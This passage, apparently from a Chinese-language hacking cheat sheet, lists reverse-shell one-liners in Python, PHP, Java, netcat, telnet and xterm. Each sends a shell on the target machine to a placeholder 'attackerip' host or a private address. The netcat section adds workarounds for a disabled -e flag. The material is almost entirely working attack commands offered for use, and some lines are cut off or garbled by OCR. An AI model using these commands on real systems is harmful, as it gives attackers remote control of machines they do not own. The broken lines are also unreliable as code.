 > 
<pre>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>


### 51.PHP 反弹 Shell

> 
<pre>php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</pre>


### 52.JAVA 反弹 Shell

> 
<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/attackerip/443;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])
p.waitFor()</pre>


### 53.NETCAT 反弹 Shell

> 
<pre>nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443


// 如果 -e 参数被禁用，可以尝试以下命令
// mknod backpipe p &amp;&amp; nc attackerip 443 0&lt;backpipe | /bin/bash 1&gt;backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p &amp;&amp; nc attackerip 4443 0/tmp/


// 如果你安装错了 netcat 的版本，请尝试以下命令
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc attackerip &gt;/tmp/</pre>


### 54.TELNET 反弹 Shell

> 
<pre>// 如果 netcat 不可用或者 /dev/tcp
mknod backpipe p &amp;&amp; telnet attackerip 443 0&lt;backpipe | /bin/bash 1&gt;backpipe</pre>


### 55.XTERM 反弹 Shell

> 
<pre>// http://baike.baidu.com/view/418628.htm
// 开启 X 服务器 (:1 – 监听 TCP 端口 6001)
apt-get install xnest
Xnest :1


// 记得授权来自目标 IP 的连接
xterm -display 127.0.0.1:1
